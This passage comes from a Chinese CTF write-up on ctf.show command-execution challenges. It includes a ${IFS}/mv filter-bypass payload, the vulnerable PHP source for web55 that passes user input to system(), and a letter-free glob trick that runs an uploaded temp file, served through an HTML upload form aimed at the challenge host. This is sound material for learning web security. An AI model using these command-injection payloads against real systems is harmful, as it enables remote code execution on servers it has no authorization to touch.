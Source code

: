 根据源代码，将使用''的行为剔除了，因此只能另辟蹊径，可以考虑使用cp命令，但尝试过后发现无响应，而使用mv可以实现，查询后猜测应该是用户权限不够

---
**payload**

```php
url/?c=mv${IFS}fla?.php${IFS}abc.txt
url/abc.txt
```
---






## web55 过滤了所有字母
**题目描述**

```php
<?php
// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
} 
```
---
**题目分析**

[web55题解](https://blog.csdn.net/qq_46091464/article/details/108513145)

[无字母数字webshell提高篇](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)

从师傅们的文章中可以知道构造 ?c=.+/???/????????\[@-\[\] 可以运行刚刚上传的文件中的命令

---
**payload**

POC构造模板：

```php
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="http://46230c96-8291-44b8-a58c-c133ec248231.chall.ctf.show/" method="post" enctype="multipart/form-data">
<!--链接是当前打开的题目链接-->
    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```
打开html页面上传任意文件，修改包里内容，修改后：
